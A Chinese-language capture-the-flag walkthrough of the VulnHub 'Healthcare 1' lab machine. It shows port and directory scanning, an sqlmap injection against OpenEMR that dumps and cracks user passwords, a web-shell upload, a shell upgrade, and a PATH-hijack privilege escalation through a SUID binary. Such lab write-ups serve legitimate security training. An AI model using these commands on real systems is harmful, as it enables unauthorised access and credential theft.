 # Healthcare 1

> https://download.vulnhub.com/healthcare/Healthcare.ova

靶场IP：`192.168.32.221`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.221                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-10 09:56 EDT
Nmap scan report for 192.168.32.221
Host is up (0.00078s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3d
80/tcp open  http    Apache httpd 2.2.17 ((PCLinuxOS 2011/PREFORK-1pclos2011))
MAC Address: 00:0C:29:0F:7D:F1 (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.54 seconds

```

ftp登录失败

```
┌──(root💀kali)-[/tmp]
└─# ftp 192.168.32.221
Connected to 192.168.32.221.
220 ProFTPD 1.3.3d Server (ProFTPD Default Installation) [192.168.32.221]
Name (192.168.32.221:root): anonymous
331 Password required for anonymous
Password:
530 Login incorrect.
Login failed.
Remote system type is UNIX.
Using binary mode to transfer files.

```

浏览器访问80端口

![image-20220910215719818](../../.gitbook/assets/image-20220910215719818.png)

爆破目录

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -u http://192.168.32.221/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 100 –e                                                                                                                 

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.221/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/10 09:58:23 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 341] [--> http://192.168.32.221/css/]
/js                   (Status: 301) [Size: 340] [--> http://192.168.32.221/js/] 
/vendor               (Status: 301) [Size: 344] [--> http://192.168.32.221/vendor/]
/favicon              (Status: 200) [Size: 1406]                                   
/robots               (Status: 200) [Size: 620]                                    
/images               (Status: 301) [Size: 344] [--> http://192.168.32.221/images/]
/index                (Status: 200) [Size: 5031]                                   
/fonts                (Status: 301) [Size: 343] [--> http://192.168.32.221/fonts/] 
/gitweb               (Status: 301) [Size: 344] [--> http://192.168.32.221/gitweb/]
/phpMyAdmin           (Status: 403) [Size: 59]                                     
/server-status        (Status: 403) [Size: 1000]                                   
/server-info          (Status: 403) [Size: 1000]                                   
/openemr              (Status: 301) [Size: 345] [--> http://192.168.32.221/openemr/]
                                                                                    
===============================================================
2022/09/10 10:03:30 Finished
===============================================================

```

访问：`/openemr/`

![image-20220910220211578](../../.gitbook/assets/image-20220910220211578.png)

其中该版本有[SQL注入漏洞](https://www.netsparker.com/web-applications-advisories/sql-injection-vulnerability-in-openemr/)。

```
sqlmap -u http://192.168.32.221/openemr/interface/login/validateUser.php?u= -D openemr -T users --dump --batch
```

```
[10:04:34] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[10:04:34] [INFO] starting 2 processes 
[10:04:38] [INFO] cracked password 'ackbar' for user 'admin'
[10:04:47] [INFO] cracked password 'medical' for user 'medical' 
```

![image-20220910220602361](../../.gitbook/assets/image-20220910220602361.png)

使用admin登录

![image-20220910221015106](../../.gitbook/assets/image-20220910221015106.png)

在files那里添加shell

![image-20220910221458811](../../.gitbook/assets/image-20220910221458811.png)

访问config

```
http://192.168.32.221/openemr/interface/main/main_screen.php?auth=login&site=default
```

![image-20220910222421606](../../.gitbook/assets/image-20220910222421606.png)

现在，我们有了一个 revere shell，让我们在 python-onliner 的帮助下将它升级为一个完全交互式的 TTY shell，并进一步进行 post enumeration 以提升 root 权限。因此，首先我们以**medical:medica** l（通过 SQLi 枚举）身份登录，然后尝试使用 find 命令识别 SUID 启用二进制文件。

```
sh-4.1$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.1$ su medical
su medical
Password: medical

[medical@localhost /]$ 

[medical@localhost /]$ find / -perm -u=s -type f 2> /dev/null
find / -perm -u=s -type f 2> /dev/null
/usr/libexec/pt_chown
/usr/lib/ssh/ssh-keysign
/usr/lib/polkit-resolve-exe-helper
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/chromium-browser/chrome-sandbox
/usr/lib/polkit-grant-helper-pam
/usr/lib/polkit-set-default-helper
/usr/sbin/fileshareset
/usr/sbin/traceroute6
/usr/sbin/usernetctl
/usr/sbin/userhelper
/usr/bin/crontab
/usr/bin/at
/usr/bin/pumount
/usr/bin/batch
/usr/bin/expiry
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/wvdial
/usr/bin/pmount
/usr/bin/sperl5.10.1
/usr/bin/gpgsm
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/passwd
/usr/bin/gpg
/usr/bin/healthcheck
/usr/bin/Xwrapper
/usr/bin/ping6
/usr/bin/chsh
/lib/dbus-1/dbus-daemon-launch-helper
/sbin/pam_timestamp_check
/bin/ping
/bin/fusermount
/bin/su
/bin/mount
/bin/umount

```

我们发现为 `/usr/bin/healthcheck` 启用了 SUID 位，我们使用 strings 命令进一步探索"healthcheck"，我们发现它通过运行"ifconfig"和"fdisk"等命令来扫描系统：

```
[medical@localhost /]$ strings /usr/bin/healthcheck
strings /usr/bin/healthcheck
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h

```

我们可以使用使用 PATH 变量的权限提升技术来利用系统，从**[这里](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)** 阅读以了解更多信息：

```
cd /tmp 
echo "/bin/bash" > fdisk 
chmod 777 fdisk 
export PATH="/tmp:$PATH"
/usr/bin/healthcheck 
cd /root 
ls
```

![image-20220910223149010](../../.gitbook/assets/image-20220910223149010.png)
